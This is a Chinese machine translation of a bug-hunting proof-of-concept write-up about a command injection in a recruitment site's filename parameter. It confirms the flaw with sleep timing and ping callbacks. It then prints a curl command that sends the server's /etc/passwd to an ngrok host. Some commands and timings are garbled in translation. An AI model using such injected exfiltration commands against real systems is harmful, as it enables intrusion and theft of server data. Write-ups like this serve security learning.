 # 命令注入概念验证

> 原文：<https://infosecwriteups.com/command-injection-poc-72cc3743f10d?source=collection_archive---------0----------------------->

所以早在 2017 年 12 月，我在一个招聘网站上发现了一个命令注入漏洞。这是简单的概念证明。易受攻击的参数是**文件名**。

我用这个命令 **`sleep 5`** 进行了测试，响应延迟了 5-6 秒(6.113 毫秒)。见右下角的延迟。

![](img/64469ea025fce50051c40cd37de04839.png)

我再次用**`睡眠 10`** 检查，只是为了确认一下，看看有什么不同。响应再次延迟 10-11 秒(11.137 毫秒)。见右下角的延迟。

![](img/6bf12eaddbbbc44660244f417eeab459.png)

我尝试使用 **`ping -c 5 <我的服务器 IP 地址>`**ping 我的服务器，并在我的服务器上运行 **tcpdump -i <接口> -n icmp** 来查看传入的 icmp 数据包。ping 命令意味着向我的服务器 IP 地址发送 5 次 ICMP 数据包。

![](img/c8aab9dcfc06ba2c5f6ce62e703d7618.png)![](img/ca5b598bf0e2fd1f98c8f7fa824b0679.png)

抱歉编辑，但你可以看到我有 5 次传入 ICMP 数据包。我的服务器 IP 地址是 5.000.000.105，传入的 ICMP 数据包来自 000.000.39.169。现在我知道 filename 参数容易受到命令注入的攻击。

我在用 ngrok 做另一个测试。所以我跑**。/ngrok http 80** 在我的本地主机上，我对易受攻击的参数执行这个**` curl blablabla . ngrok . io `**。

![](img/2d5cc803134a9035a7e510d41824bde6.png)

现在看看 ngrok web 界面上的响应(http://127.0.0.1:4040)。我收到来自 IP 地址 000.000.39.169 的传入请求。上面 ICMP 请求中的相同 IP 地址。

![](img/e174dddded00d690ca01d5a8a8d6931c.png)

现在，我可以读取易受攻击的服务器上的文件，并使用以下命令将其发送到我的 ngrok 地址**` curl-F SHL = @/etc/passwd blablabla . ngrok . io `**。该命令意味着使用包含/etc/passwd 的 shl 参数向 blablabla.ngrok.io 发送 POST 请求。

![](img/5e05ece2b15a3e2ef7d0366b82b418b3.png)

结果是易受攻击的服务器将他们的/etc/passwd 发送到我的 ngrok 地址。同样来自 IP 地址 000.000.39.169。

![](img/da1bc295d80d96979a7e3ff47647b017.png)

就是这样！黑客快乐！:)